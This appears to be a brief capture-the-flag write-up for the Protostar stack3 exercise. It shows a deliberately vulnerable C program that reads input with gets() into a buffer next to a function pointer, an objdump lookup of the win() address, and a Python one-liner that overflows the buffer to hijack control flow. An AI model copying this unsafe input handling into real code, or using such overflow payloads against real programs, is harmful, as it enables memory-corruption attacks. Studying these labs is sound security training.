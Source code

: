 source code:
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

Find address of function `win` using `objdump`,

```bash
user@protostar:~$ objdump -d stack3 | grep win
08048424 <win>:
```
ps: use `-no-pie` when `gcc` compiling to have function address fixed. 

```
user@protostar:~$ python -c "print b'A'*64+b'$\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```